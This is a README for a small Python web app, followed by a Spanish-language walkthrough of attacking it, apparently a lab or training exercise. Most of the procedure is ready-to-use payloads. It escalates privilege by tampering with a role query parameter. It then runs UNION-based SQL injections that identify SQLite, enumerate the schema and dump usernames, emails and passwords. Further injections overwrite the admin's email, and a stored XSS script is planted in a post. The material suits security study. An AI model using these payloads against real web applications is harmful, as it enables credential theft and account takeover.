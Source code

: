 Python version 3.12.3

Install dependencies: pip3 install -r requirements.txt

Run: py app.py

---

# Procedimiento

### 1. Entrar a la ruta /posts y cambiar el query param role por 'admin', lo cual habilita un campo filtro
### 2. Inyectar sql en este campo filtro.
   #### El objetivo es encontrar información sobre las db, tablas, columnas, como no sabemos que motor de BD utiliza, probamos con las sentencias SQL para distintos motores, para encontrar el motor que utiliza.
   ##### MySQL
   - ' UNION ALL SELECT table_schema, table_name, engine, version, row_format FROM information_schema.tables WHERE table_type = 'BASE TABLE' ORDER BY table_schema, table_name;--
   - ' UNION ALL SELECT version();--
   - ' UNION ALL SELECT schema_name FROM information_schema.schemata;--

   ##### MSSQL
   - ' UNION ALL SELECT name FROM master.dbo.sysdatabases;--
   - ' UNION ALL SELECT name FROM master.sys.databases;--
   - ' UNION ALL SELECT name FROM sys.dm_os_sys_info;--
   - ' UNION ALL SELECT name FROM dbo.dm_os_sys_info;--

   ##### SQLite
   - ' UNION ALL select sqlite_version();--
   #### En este ultimo intento vemos que el error refiere a cantidad de columnas que retorna, por lo que inferimos que algo retorno del select, entonces estamos ante un motor sqlite.

   #### Acá probamos con una sola columna, nos dicen que faltan más y vamos probando con más hasta que encontramos que son 3, ya que cambia de error
   - ' UNION ALL SELECT name FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, name as bla FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, name as bla, name as ble FROM sqlite_master WHERE type='table'--
   #### Acá nos dice que hay un error que dice que necesitamos un valor entero, entonces vamos probando columna por columna para ver cual es la columna que debe ser un entero
   - ' UNION ALL SELECT name, name as bla, 11 as ble FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, 77 as bla, 11 as ble FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT 66, name as bla, 11 as ble FROM sqlite_master WHERE type='table'--

   #### Ahora, teniendo el nombre de la tabla, queremos descubrir los nombres de los campos (users, posts y comments)
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'users' --
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'posts' --
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'comments' --

   #### Con toda la informacion previa, podemos ver la información de las tablas
   - ' UNION ALL SELECT id, id || ' ' || username || ' ' || email || ' ' || role, password FROM 'users' --
   - ' UNION ALL SELECT id, title, content FROM 'posts' --
   - ' UNION ALL SELECT id, content, post_id FROM 'comments' --

   #### En el mismo campo, intentamos buscar la forma de cambiar el mail, pero no nos permite, ya que no permite la ejecucion de mas de una query a la vez
   - s' ; UPDATE users SET email='my_email' WHERE username='admin'; --

   #### Buscamos otros campos donde poder injectar sql. Encontramos que los posts tienen un campo texto, que permite esta injeccion
   - '); UPDATE users SET email='my_email' WHERE username='admin'--

### 3. ' UNION ALL SELECT 10 as id, sql AS content, '-' as title from sqlite_schema where name = 'users' --
### 4. Logeado como admin, crear un post con contenido malicioso. Ejemplo de contenido: <script>alert('alerta xss')</script>
